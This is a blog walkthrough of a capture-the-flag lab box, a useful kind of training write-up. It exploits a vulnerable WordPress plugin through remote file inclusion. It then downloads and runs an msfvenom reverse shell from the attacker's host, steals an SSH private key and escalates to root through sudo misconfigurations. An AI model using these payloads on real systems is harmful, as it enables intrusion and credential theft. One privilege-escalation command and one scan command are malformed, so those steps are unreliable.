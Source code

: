 ```yaml
---
layout: post
title: "SoSimple Walkthrough"
subtitle: "a good pg play box!"
date: 2023-02-08
author: "Peter"
header-img: "img/post-bg-hack.jpg"
tags: [walkthrough]
---
```


This box is named so simple, however it's a medium boxes, it's hard to expect it will be that simple to catch the flags.

The target of this box is to catch the root flag and the user flag, so let's begin.

From the information provided by the box, we have the ip as below:

attack IP: `192.168.76.78`
local IP: `192.168.49.76`

So let's start to scan the ports, I'm using commands that basically run the scan and the service scan, and save the result to log file.
```bash
nmap -vv -Pn -sV -sS -oN 192.168.76.78.log 192.168.76.78
```

As the result, Nmap have found two ports on, which is http and ssh. That indicates it's a simple web app with a ssh to get into the server. No other fancy setups.
```nmap
22/tcp open ssh syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open http syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
```

After knowing the result, we can start to find the way to enter the server, at first we will be head into a main page with only a simple picture on it. And there's no useful information inside the terminal. 
![[Pasted image 20230207195730.png]]

From wappalyzer and nmap that we could know it's a  2.4.41 apache server, so here comes two attempts:
1. Find if there's Apache 2.4.41 exploit
2. Use directory search to the website

As the first approach, there's no 2.4.41 exploit. *Also the boxes could not be that simple*

So let's dive into the second app approach, here we choose to run gobuster to the target website, using the medium wordlist
```bash
gobuster dir -u 192.168.76.78 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o
```

As the gobuster result, we found there's `/wordpress` available on the website, no other directory available.  *Sorry forgot to screenshot*

So head into the wordpress, before going deep into the scanner, it would be good to search for the useful information on the site, unfortunately there's no any other than knowing the wordpress version.

So we could run the WPScan, and remember to sign up to the WPScan website to get the token that the WPScan will tell you which vulnerability appears on the website.  
```
wpscan --url 192.168.76.78/wordpress --api-token YOUR_TOKEN
```

As the WPScan result, there's one called [social warfare](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618) seemed to be useful, so we could follow the exploit instruction to start exploit the web page.  

First, we could test if the payload is useful or not by the step as follow:
1. Create payload including `<pre>system('cat /etc/passwd')</pre>`
2. Start a simple http server `python3 -m http.server 80`
3. Type the payload url `http://192.168.76.78/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.49.76/swpayload.txt`

It works like a charm, but it's inconvenient to use the web interface like that, it'd be better to use a reverse shell instead. So we need to generate a payload and activate the reverse shell.
![[Pasted image 20230206225851.png]]

So we need to:
1. Generate a payload
2. Download and execute the payload at the target machine

First, to generate the payload we could use [reverse shell generator](https://www.revshells.com/) that have
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.49.76 LPORT=5566 -f elf -o reverse.elf
```

Before execute the payload, don't forget to open a netcat listener.
```bash
nc -lvnp 5566
```

Then we could modify the command to download and execute the payload
```xml
<pre>system('wget 192.168.49.76/reverse.elf && chmod +x ./reverse.elf && ./reverse.elf')</pre>
```

After execute the url again, we successfully accessed the reverse shell. *The ip is used for renewing the pictures, please don't bother with it*
![[Pasted image 20230207205407.png]]

So after we accessed the server, it's time for us to look for some credentials. There usually are some information that will be inside of:
```
/home
/tmp
/opt
```

We found we could access `/home/max` and the file inside it by using
```bash
ls -lah /home/max/
```
![[Pasted image 20230207205915.png]]

To simplify the explanation, the first flag is at `local.txt`. And we found `.ssh` might include the information that could be very helpful. And boom! `id_rsa` is inside the `.ssh` folder, so we could use it to ssh as the identity of max.

First, copy the private key to your local directory. Remember the key format, that it should look as follow with a empty line at below and two separate line don't stuck with the key itself.  **I lost my points on this step :<**

```
-----BEGIN OPENSSH PRIVATE KEY-----
HASH
-----END OPENSSH PRIVATE KEY-----

```

Then we could ssh into the target machine with 
```bash
ssh -i id_rsa max@192.168.76.78
```

After accessing with max, it could be good to run scanning scripts like linpeas.
```bash
mkdir /tmp/hi && cd /tmp/hi && wget 192.168.49.76/linpeas.sh && chmod +x linpeas.sh && ./linpeas.sh | tee linpeas.log
```

We found the useful information as below with the yellow highlighted. Which is checked by `sudo -l`
![[Pasted image 20230207023908.png]]

It means we can run the `/usr/sbin/service` with user `steven`, and we know from [gtfobins](https://gtfobins.github.io/gtfobins/service/) that we can use the service to access a bash with follow command.
``` bash
sudo -u steven /usr/sbin ../../bin/sh
```

After enter the bash with `steven`, run `sudo -l` again, we'll found out that we can run `/opt/tools/server-health.sh` with root permission with no password needed.
![[Pasted image 20230207033041.png]]

However, there's no file found as `/opt/tools/server-health.sh`, so we make one by our self then execute it.
``` bash
mkdir /opt/tools/
touch /opt/tools/server-health.sh
echo '/bin/bash' >> /opt/tools/server-health.sh
# Don't forget to add permission
chmod +x /opt/tools/server-health.sh
```

Then we run as root
``` bash
sudo -u root /opt/tools/server-health.sh
```

Viola! We get the root permission and we could catch the root flag!

